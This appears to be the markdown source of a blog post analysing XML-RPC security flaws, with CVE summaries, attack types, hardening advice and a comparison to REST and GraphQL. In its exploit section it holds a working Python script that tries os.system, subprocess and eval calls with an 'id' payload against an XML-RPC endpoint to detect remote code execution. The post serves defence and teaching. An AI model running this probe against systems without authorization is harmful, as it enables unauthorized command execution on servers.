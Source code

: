 ```yaml
---
title: "XML-RPC Security Vulnerabilities Analysis and Mitigation Strategies"
date: 2025-03-28
draft: false
tags: ["XML-RPC", "Security", "RCE", "Exploit"]
categories: ["Cybersecurity"]
---
```


![XML-RPC background](/images/post/xmlrpc-security.png)

## Summary

- **Overview of XML-RPC Vulnerabilities:** As a lightweight remote call protocol for inter-system communication, XML-RPC is exposed to various threats such as RCE, XXE, DDoS, and privilege escalation.
- **Notable Cases:** NodeBB (CVE-2023-43187), Apache OFBiz (CVE-2020-9496), PHP XML-RPC (CVE-2005-1921), etc.
- **Real-World Use Cases:** In addition to WordPress, Bugzilla, ManageEngine, and Apache OFBiz, XML-RPC is still used in some legacy systems.
- **Mitigation Strategies:** Disabling XML-RPC, enhancing input validation, reinforcing authentication systems, applying up-to-date security patches, implementing access control, and deploying WAFs.

## What is XML-RPC?

**XML-RPC (XML Remote Procedure Call)** is a remote procedure call protocol that uses XML as its data format and HTTP as its transport mechanism. Proposed jointly by Dave Winer and Microsoft in 1998, it was designed to simplify cross-platform communication.

### Basic Principles

- The client sends a request in XML format, and the server responds in XML.
- It can easily pass through firewalls using standard HTTP(S).

### History of XML-RPC

XML-RPC was widely used in early web services and implemented in various languages including Perl, Java, Python, C, and PHP. Although it later evolved into SOAP, it is still used in some environments due to its simplicity.

### Current Status of XML-RPC

Its use is declining with the advent of newer technologies such as RESTful APIs and gRPC. WordPress is transitioning to REST API, and XML-RPC is now mostly limited to legacy systems.

## Vulnerability Analysis

### 1. XML Injection & Remote Code Execution (RCE)

- **NodeBB (CVE-2023-43187):** RCE possible due to lack of XML input validation
- **Apache OFBiz (CVE-2020-9496):** RCE via Java deserialization
- **PHP XML-RPC (CVE-2005-1921):** RCE through misuse of `eval()`

### 2. XXE (XML External Entity)

- **Apache XML-RPC (CVE-2016-5002):** Local file exposure and SSRF possible due to missing external entity deactivation

### 3. DDoS and Brute Force Attacks

- **system.multicall:** Automates brute force attacks
- **pingback.ping:** Facilitates DDoS reflection attacks

### 4. Authentication Bypass & Privilege Escalation

- **WordPress (CVE-2020-28036):** Authentication bypass via XML-RPC

## Real-World Attack Cases

- **SonicWall Report (2018):** Over 100,000 XML-RPC attacks detected
- **WPbrutebot:** XML-RPC-based brute-force attack tool
- **Pingback DDoS:** Large-scale reflection attacks using XML-RPC

## XML-RPC Exploit Example

The following is a Python-based PoC code to detect RCE vulnerabilities in XML-RPC and its execution screen:

![xmlrpc poc code output](/images/post/xmlrpc-rce.png)

```python
import xmlrpc.client
import ssl
import http.client

candidate_methods = [
    "os.system",
    "commands.getoutput",
    "subprocess.check_output",
]

candidate_methods_eval = [
    "__builtin__.eval",
    "builtins.eval",
]

rpc_urls = [
    "https://xxx.com/cgi-bin/rpc.cgi",
]

context = ssl._create_unverified_context()

class UnverifiedTransport(xmlrpc.client.SafeTransport):
    def make_connection(self, host):
        return http.client.HTTPSConnection(host, context=context)

for rpc_url in rpc_urls:
    print(f"[+] Scanning target: {rpc_url}")
    client = xmlrpc.client.ServerProxy(rpc_url, transport=UnverifiedTransport())

    for method in candidate_methods:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            print(f"[>] Trying {method}('id')...")
            result = func('id')
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")

    for method in candidate_methods_eval:
        try:
            parts = method.split(".")
            obj = getattr(client, parts[0])
            func = getattr(obj, parts[1])
            payload = '__import__("commands").getoutput("id")'
            print(f"[>] Trying {method}('{payload}')...")
            result = func(payload)
            if isinstance(result, bytes):
                result = result.decode()
            print(f"[✔] {method} → Success! Result: {result}\n")
        except Exception as e:
            print(f"[-] {method} blocked: {e}")
```

> ⚠️ Use this script **only in authorized environments**.

## Major Services Using XML-RPC

| System         | Usage Examples                           |
| -------------- | ----------------------------------------- |
| WordPress      | Posting, comments, pingbacks (moving to REST) |
| Bugzilla       | Bug submission and update API            |
| ManageEngine   | User account and password management     |
| Apache OFBiz   | ERP integration API                      |

## Security Hardening Measures

- Disable XML-RPC (via .htaccess, web server config, plugins)
- Enhance input validation (regex-based)
- Apply XXE prevention settings
- Use API keys, OAuth, JWT authentication
- Restrict access by IP
- Deploy Web Application Firewall (WAF)
- Monitor logs and conduct regular vulnerability assessments

## Modern Alternatives Comparison

| Criteria    | XML-RPC | REST     | GraphQL   |
| ----------- | -------- | -------- | --------- |
| Data Format | XML      | JSON     | JSON      |
| Structure   | Method-based | Resource-based | Query-based |
| Scalability | Low      | High     | Very High |
| Security    | Low      | Medium+  | Medium+   |
| Strengths   | Simple implementation | Cacheable | Minimized data queries |

## Conclusion & Recommendations

- **Avoid using XML-RPC due to high security risks.**
- **If unavoidable, apply strong authentication and access control.**
- **Actively consider migrating to REST or GraphQL.**

## Reference Links

- [XML-RPC - Wikipedia](https://ko.wikipedia.org/wiki/XML-RPC)
- [CVE-2023-43187 - NodeBB XML Injection](https://nvd.nist.gov/vuln/detail/CVE-2023-43187)
- [CVE-2020-9496 - Apache OFBiz RCE](https://nvd.nist.gov/vuln/detail/CVE-2020-9496)
- [CVE-2005-1921 - PHP XMLRPC Code Injection](https://nvd.nist.gov/vuln/detail/CVE-2005-1921)
- [CVE-2016-5002 - Apache XML-RPC XXE](https://nvd.nist.gov/vuln/detail/CVE-2016-5002)
- [WordPress XML-RPC Security Guide (SolidWP)](https://solidwp.com/blog/xmlrpc-php/)
- [SonicWall XML-RPC Attack Analysis Report](https://www.sonicwall.com/blog/major-attempt-to-exploit-xml-rpc-remote-code-injection-vulnerability-is-observed)



